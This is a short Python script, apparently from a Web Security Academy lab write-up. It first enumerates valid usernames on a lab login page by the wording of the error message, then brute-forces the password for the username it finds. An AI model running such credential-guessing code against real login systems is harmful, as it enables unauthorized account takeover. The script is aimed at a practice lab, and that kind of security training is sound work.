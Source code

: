 ```python

VALID_PASSWORD = ""

  

url = "https://0af8004a04756ef7c0cd499800bd00fb.web-security-academy.net/login"

  

for username in l_username:

data = {

"username":username,

"password":"test"

}

  

r = requests.post(url, data=data)

  

if "Invalid username or password." not in r.text:

print(f"Found valid userame: {username}")

VALID_USERNAME = username

break

  

for password in l_password:

data = {

"username":VALID_USERNAME,

"password":password

}

  

r = requests.post(url, data=data)

  

if "Invalid username or password" not in r.text:

print(f"Found valid password for {VALID_USERNAME}: {password}")

VALID_PASSWORD = password

break

  

print(f"\n\n\nUsername: {VALID_USERNAME}\nPassword: {VALID_PASSWORD}")
```